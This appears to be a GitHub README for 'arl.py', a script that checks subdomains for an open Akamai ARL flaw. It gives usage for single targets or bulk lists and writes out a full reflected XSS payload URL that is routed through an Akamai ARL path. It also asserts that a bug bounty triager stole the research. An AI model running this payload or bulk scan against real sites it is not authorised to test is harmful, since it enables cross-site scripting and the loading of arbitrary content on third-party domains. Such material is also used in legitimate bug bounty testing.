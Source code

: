 
# Akamai ARL Hack

- This research was stolen from todayisnew a.k.a @codecancare by a bug bounty triager.

It is now public knowledge, but we are sorry for what happened to todayisnew.


This is a script to test an open Akamai ARL vulnerability.

When successful, you can more or less load arbitrary Akamai-hosted content from the target subdomain.

## Usage

```
python arl.py <subdomain>

python arl.py list_of_subdomains.txt
```

Where the latter is a text file of line-delimited targets.

## What it tries to do

```
1. GET request to subdomain.example.org
2. If response doesn't suggest naked Akamai showing, exits
3. http://subdomain.example.org/7/100/33/1d/www.citysearch.com/search?what=reallylongstringtomakethepayloadforxssmoveoutofview&where=place%22%3E%3Csvg+onload=confirm(document.location)%3E
4. Prints 'true' or 'false' whether that payload seemed to work
```


